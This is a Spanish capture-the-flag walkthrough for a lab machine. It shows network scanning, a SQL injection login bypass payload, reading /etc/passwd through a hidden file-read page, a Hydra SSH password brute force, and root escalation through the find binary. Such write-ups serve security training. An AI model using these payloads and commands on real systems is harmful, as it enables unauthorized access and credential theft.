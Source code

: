 # Bocata de Calamares

## 0. HERRAMIENTAS

- SQLi
- Base64
- Binario find

## 1. ENUMERACIÓN

Hacemos una búsqueda de ips en nuestra red

```jsx
sudo arp-scan -I eth0 --localnet
```

![image](https://github.com/user-attachments/assets/ed523711-f4d6-4737-86cd-af8e9c8b1928)


Lanzamos un nmap 

```jsx
sudo nmap -p- -open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 192.168.31.164
```

![image](https://github.com/user-attachments/assets/ae77dde1-eac8-4ef6-b246-a193373987e4)


Vemos los puertos abiertos:

- 22
- 80

Accedemos a la url 

![image](https://github.com/user-attachments/assets/0a169ec1-2625-435c-8458-f5815b161806)


Dentro de “Expertos advierten un nuevo peligro…” vemos una pequeña guía de SQL Injection sqli.php

![image](https://github.com/user-attachments/assets/26f46ee0-814e-471b-8fd9-0a038299227d)


Con gobuster buscamos directorios

```jsx
sudo gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u '[http://192.168.31.164](http://192.168.31.164/)' -x 'php,py,sh,,html,txt,jpg'
```

![image](https://github.com/user-attachments/assets/8638dfde-0ba3-421e-8559-eb09d4e7c86a)


Vemos el directorio login.php y admin.php, la segunda no muestra nada.

## 2. COMPROMISO DEL ENTORNO

Login.php muestra una pantalla de acceso. Probaremos haciendo una SQLi

```
 Usuario: admin
 Contraseña: ' OR '1'='1
```

Accedemos correctamente

![image](https://github.com/user-attachments/assets/5e18f895-534e-40b1-944d-fd11fe018615)


Accedemos al enlace to-do-list que indica

![image](https://github.com/user-attachments/assets/a4b6f943-1d59-4611-a064-5341ef95976d)


En el tercer punto nos está dando una pista 

He creado una nueva página para poder leer los ficheros internos del servidor, cada día soy un mejor programador. Además he codificado su nombre en base64, así nadie podrá dar con ella (lee_archivos).

Hay una pagina en base64 donde podemos meter comandos, seguramente sea lee_archivos

Ciframos 

![image](https://github.com/user-attachments/assets/d89de794-27e6-46a2-97a4-cb5232f5cfb4)


Y efectivamente vemos que existe la página y podemos buscar los usuarios de /etc/passwd

![image](https://github.com/user-attachments/assets/dba9be9f-298c-4d1f-9edd-cd232215c543)


Encontramos al usuario superadministrator, intentaremos encontrar su contraseña con Hydra

```jsx
hydra -l superadministrator -P /usr/share/wordlists/rockyou.txt 192.168.31.164 ssh
```

Nos encuentra la contraseña

![image](https://github.com/user-attachments/assets/97296b38-1a8a-47d0-a396-e6f60e08ce8f)


Accedemos por ssh correctamente

Encontramos la primera flag

![image](https://github.com/user-attachments/assets/a2c4ebfd-fb2f-4424-9a50-7c1e34e254bf)


## 3. ESCALACION DE PRIVILEGIOS

Buscamos binarios que podamos ejecutar

![image](https://github.com/user-attachments/assets/ac24b5a4-f23e-4e0d-91bf-76aadee19616)


En https://gtfobins.github.io/ encontramos el siguiente binario /usr/bin/find

![image](https://github.com/user-attachments/assets/d7b7b7e1-a9f0-4ba9-b45a-29a7969855b9)


Conseguimos la elevación de privilegios y localizar la segunda flag

![image](https://github.com/user-attachments/assets/012adb76-c433-4040-84c1-58e23aa70655)
